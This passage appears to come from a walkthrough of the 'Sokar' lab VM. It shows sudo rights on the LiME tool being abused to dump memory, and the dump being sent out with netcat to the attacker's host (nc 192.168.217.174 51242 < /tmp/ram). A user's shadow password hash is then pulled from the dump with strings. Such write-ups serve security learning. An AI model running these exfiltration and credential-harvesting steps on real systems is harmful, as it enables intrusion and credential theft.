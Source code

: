 ```bash
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime
```

I had no freaking idea what `lime` even really is, so, to the Gooooogles I went and came across this: [https://github.com/504ensicsLabs/LiME](https://github.com/504ensicsLabs/LiME). A forensics tool thingy thing. It seems like I will get to crawl through a dump of the current memory. Cool ;p

I ran the script to `insmod` the `lime.ko`, this time with `sudo`:

```bash
leonjza@kali/sokar $ python bynarr.py "echo \"add\" | sudo /home/bynarr/lime"
 * Executing /usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','echo "add" | sudo /home/bynarr/lime', 'bynarr']);"

Password:

==========================
Linux Memory Extractorator
==========================

LKM, add or remove?
>

```

I checked `/tmp` for the existence of the `ram` file and it was present. Looks like it worked :D. A quick note here. When I imported the VM initially, I upped the memory to 2GB. It was set to only have 256Mb by default which I thought was a little low. Sokar has limited disk space, so I was not getting the full memory dump. When I eventually noticed this, I reduced it back to the initial 256Mb and worked from there.

Remembering the outbound port access, I opened a netcat listener on my local Kali linux to redirect a incoming file to a local `ram` file with `nc -lvp 51242 > ram`. Then, using my wrapper script `bynarr.py` again, I redirected the `/tmp/ram` file out over the netcat connection with: `python bynarr.py "/usr/bin/nc 192.168.217.174 51242 < /tmp/ram"`. I now had a memory dump of Sokar on my local Kali Linux.

It was at this stage that I went down the wrong rabbit hole. [Volatility](https://code.google.com/p/volatility/) was the first thing that came to mind when I saw this speak of memory dumps and what not. Having always just had this on my todo list, I figured that this was the perfect opportunity to finally give it a spin. I followed most of the docs to try and match the exact same kernel version as Sokar had (I have a number of CentOS VM's) and prepared a profile as required. Short version, it failed. I was not able to get Volatility to give me anything useful. Eventually I reconsidered my approach and went back to trusty 'ol `strings`.

I had to think a bit about what could possibly be useful in memory for me now. I noticed the user `apophis` had a home directory that I have not yet been able to access, so I promptly grepped the ram image for this user:

```bash
leonjza@kali/sokar $ strings ram | grep apophis

[... snip ...]

apophis:[snip]0HQCZwUJ$rYYSk9SeqtbKv3aEe3kz/RQdpcka8K.2NGpPveVrE5qpkgSLTtE.Hvg0egWYcaeTYau11ahsRAWRDdT8jPltH.:16434:0:99999:7:::
```
